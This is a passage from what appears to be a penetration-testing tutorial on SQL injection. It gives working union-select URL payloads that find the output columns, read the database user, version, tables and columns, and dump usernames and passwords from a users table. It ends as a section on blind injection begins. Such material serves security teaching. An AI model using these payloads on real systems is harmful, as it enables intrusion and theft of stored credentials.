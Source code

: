 #### Step 3 - Find space to output db

Now we need to know which coolumns are being outputed on the webpage. It could be that not all data from the database is worthwhile to output, so maybe only column 1 and 3 are being outputted to the website.

To find out which columns are being outputted we can use the **union select** command. So we do the command like this

	 http://example.com/photoalbum.php?id=1 union select 1,2,3,4,5,6,7,8,9

For all the columns that exists. This will return the numbers of the columns that are being outputted on the website. Take note of which these columns are.

#### Step 4 - Start enumerating the database

Now we can use that field to start outputing data. For example if columns number five has been visible in step 3, we can use that to output the data.

Here is a list of data we can retrieve from the database. Some of the syntaxes may difference depending on the database engine (mysql, mssql, postgres).

	 # Get username of the sql-user
	http://example.com/photoalbum.php?id=1 union select 1,2,3,4,user(),6,7,8,9

	# Get version
	http://example.com/photoalbum.php?id=1 union select 1,2,3,4,version(),6,7,8,9

	# Get all tables

	http://example.com/photoalbum.php?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

	# Get all columns from a specific table

	http://example.com/photoalbum.php?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'

	# Get content from the users-table. From columns name and password. The 0x3a only servers to create a delimitor between name and password

	http://example.com/photoalbum.php?id=1 union select 1,2,3,4,concat(name,0x3a,
	password),6,7,8,9 FROM users

### Blind sql-injection

We say that it is blind because we do not have access to the error log. This make the whole process a lot more complicated. But it is of course still possible to exploit.
